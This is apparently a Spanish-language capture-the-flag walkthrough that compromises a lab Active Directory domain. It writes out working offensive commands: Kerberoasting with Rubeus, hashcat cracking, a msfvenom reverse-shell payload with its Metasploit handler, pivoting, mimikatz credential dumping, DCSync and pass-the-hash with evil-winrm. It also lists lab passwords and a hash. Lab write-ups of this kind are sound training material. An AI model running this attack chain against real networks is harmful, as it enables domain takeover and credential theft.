Laboratorio de Enumeración y ataques de AD - Parte 1
Enunciado
Un miembro del equipo inició una prueba de penetración externa y fue transferido a otro proyecto urgente antes de terminarla. Tras realizar un reconocimiento del servidor web externo, logró encontrar y explotar una vulnerabilidad de carga de archivos. Antes de cambiar de proyecto, nuestro compañero dejó un shell web protegido con contraseña (con las credenciales: admin:My_W3bsH3ll_P@ssw0rd!) en el /uploadsdirectorio para que pudiéramos empezar desde él. Como parte de esta evaluación, nuestro cliente, Inlanefreight, nos autorizó a evaluar nuestra capacidad de penetración y está interesado en determinar qué tipos de problemas de alto riesgo existen en el entorno de Active Directory. Aprovechar el shell web para establecerse inicialmente en la red interna. Analizar el entorno de Active Directory en busca de fallos y configuraciones incorrectas para avanzar lateralmente y, en última instancia, comprometer el dominio.
Aplique lo aprendido en este módulo para comprometer el dominio y responder las preguntas a continuación para completar la parte I de la evaluación de habilidades.
Reconocimiento
Iniciamos el reconocimiento por la información que nos proporcionan en el guión. Visitamos el servidor web y vemos los siguiente:

Efectivamente desde esta pestaña nos permite subir archivos al servidor. Vamos a ir a la ruta /uploads
http://<IP>/uploads/
 Seleccionamos la primera y vemos que nos dirige a la webshell que nos hablan al principio. Proporcionamos las credenciales que nos habían brindado.

Envíe el contenido del archivo flag.txt al escritorio del administrador del servidor web
Y tenemos acceso a la webshell.
Seleccionamos la primera y vemos que nos dirige a la webshell que nos hablan al principio. Proporcionamos las credenciales que nos habían brindado.

Envíe el contenido del archivo flag.txt al escritorio del administrador del servidor web
Y tenemos acceso a la webshell.
 Vemos que justo encima del Submit en la barra inferiror podemos ejecutar comandos. Vamos a la ruta que nos dicen para obtener nuestra primera flag:
Vemos que justo encima del Submit en la barra inferiror podemos ejecutar comandos. Vamos a la ruta que nos dicen para obtener nuestra primera flag:
dir C:\Users\Administrator\Desktop\
 Y la leemos con el comando:
type C:\Users\Administrator\Desktop\flag.txt

Kerberost crea una cuenta con el SPN MSSQLSvc/SQL01.inlanefreight.local:1433 y envía el nombre de la cuenta como respuesta
Vamos a obtener el nombre del Domain Controller:
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().FindDomainController().Name
 Resolvemos la IP del
Resolvemos la IP del Domain Controller
Resolve-DnsName DC01.INLANEFREIGHT.LOCAL
 Luego de intentar trabajar con herramientas como
Luego de intentar trabajar con herramientas como Powerview, GetUserSPN.py y no tener éxito. Lanzamos el comando integrado de powershell:
setspn -T inlanefreight.local -Q */*
Donde aquí vemos algunos de los usuarios válidos vinculados a servicios que corren por el puerto 1433, si nos fijamos nuestra flag estamos buscando MSSQLSvc/SQL01.inlanefreight.local:1433 que aquí nos aparece una cuenta svc_sql asociada a el.
 

Descifra la contraseña de la cuenta. Envía el valor en texto plano:
Vale ya tenemos la cuenta que es svc_sql ahora vamos a aplicar kerberoasting para obtener su contraseña, para esto vamos a utilizar la herramienta Rubeus.
Link para descargar Rubeus
Luego que lo tenemos en local lo subimos a a webshell.
 Y ejecutamos el comando:
Y ejecutamos el comando:
C:\Rubeus.exe kerberoast /user:svc_sql /nowrap

Al final nos va a a dar un hash el cual vamos a copiar para descifrar en local con hascat o john.
hashcat -m 13100 hash1.txt /usr/share/wordlists/rockyou.txt

Y vemos que nos da de contraseña lucky7.
Envíe el contenido del archivo flag.txt en el escritorio del Administrador en MS01 Confirmamos el objetivo
ping MS01
 Comprobamos las credenciales que tenemos contra el siguiente objetivo, mediante
Comprobamos las credenciales que tenemos contra el siguiente objetivo, mediante SMB:
net use \\MS01\C$ /user:inlanefreight.local\svc_sql lucky7
 Nos dan
Nos dan OK
dir \\MS01\C$\Users\Administrator\Desktop

Leemos la flag:
type \\MS01\C$\Users\Administrator\Desktop\flag.txt

Encuentra las credenciales de texto sin cifrar de otro usuario del dominio. Envía el nombre de usuario como respuesta.
Listamos la carpeta de Usuarios de la Máquina MS01
dir \\MS01\C$\Users\
 Y vemos ahí los usuarios.
Y vemos ahí los usuarios.
Envíe la contraseña en texto sin cifrar de este usuario.
Tenemos las credenciales del usuario svc_sql para acceder a la máquina MS01.
Tenemos que el ip de MS01 es 172.16.6.50
Y necesitamos la contraseña del usuario tpetty.
- Vamos a obtener una shell en la máquina pivote Ejecutamos desde nuestra máquina.
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP_máquina_atacante> -f exe -o backupscript.exe LPORT=4444

Subimos el payload para la máquina pivote que nos dan en HTB.
 Utilizando metasploit nos ponemos en escucha en nuestra máquina atacante:
Utilizando metasploit nos ponemos en escucha en nuestra máquina atacante:
msf6 > use exploit/multi/handler
set LHOST 10.10.15.154
set LPORT 4444
set payload windows/x64/meterpreter/reverse_https
run

Ejecutamos el payload en el pivote.

En meterpreter ponemos shell y luego powershell.exe. Para obtener una terminal powershell.

Observamos que MS01 tiene el puerto 3389 abierto.
Test-NetConnection -ComputerName MS01 -Port 3389

Con lo que nos vamos a intentar conectar por ahí.
Hacemos portforwarding desde el pivote hacia MS01 para conectarnos desde nuestra máquina atacante.
netsh.exe interface portproxy add v4tov4 listenport=8888 listenaddress=<IP_pivote> connectport=3389 connectaddress=172.16.6.50

Nos conectamos remoto por RDP desde nuestra máquina atacante hacia MS01.
xfreerdp3 /v:<IP_pivote>:8888 /u:"inlanefreight\svc_sql" /p:lucky7 /dynamic-resolution /drive:Shared,/opt/Tools/Windows

Nos copiamos mimikatz.exe de nuestra máquina atacante para MS01.

Vamos a la ruta donde copiamos mimikatz.exe y lo abrimos .\mimikatz.exe
Ejecutamos mimikatz para buscar las credenciales almacenadas en la máquina:
privilege::debug
sekurlsa::logonpasswords

¿Qué ataque puede realizar este usuario?
Tenemos el usuario tpetty y su contraseña Sup3rS3cur3D0m@inU2eR.
Vamos a copiar la herramienta PowerView.ps1 a MS01
Vamos al directorio donde la copiamos desde powershell e importamos el módulo.

Consultamos información sobre el usuario tpetty y guardamos el SID
Get-DomainUser -Identity tpetty | select samaccountname,objectsid,memberof,useraccountcontrol |fl

$sid= "S-1-5-21-2270287766-1317258649-2146029398-4607"
Vemos si tiene los permisos para DCSync:
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
Y vemos que sí.

Usamos runas.exe para abrirnos una powershell bajo la cuenta de tpetty, proporcionamos su credencial.
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\tpetty powershell
Enter the password for INLANEFREIGHT\tpetty:
 Vamos y ejecutamos
Vamos y ejecutamos mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator

Y efectivamente podemos realizar el ataque DCSync.
admin_hash ->27dedb1dab4d8545c6e1c66fba077da0
Tome el control del dominio y envíe el contenido del archivo flag.txt en el Escritorio del administrador en DC01
Vamos con el DC01, vamos a ubicarlo:

Tiene de IP -> 172.16.6.3, luego tenemos el Usuario Administrator y su hash.
Vamos a ver los puertos que tiene abiertos para intentar conectarnos.
Test-NetConnection -ComputerName DC01 -Port 3389
Test-NetConnection -ComputerName DC01 -Port 5985

Vemos que el 3389 nos da error pero el 5985 nos da OK.
Vamos a hacer un portforwarding hacia ese puerto e intentar acceder desde nuestra máquina atacante. Vamos en nuestra máquina pivote:

portfwd add -l 9999 -p 5985 -r 172.16.6.3
Utilizamos evil-winrm para conectarnos:
evil-winrm -i localhost --port 9999 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0

Ya solo nos movemos a la ubicación de la flag y la leemos

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías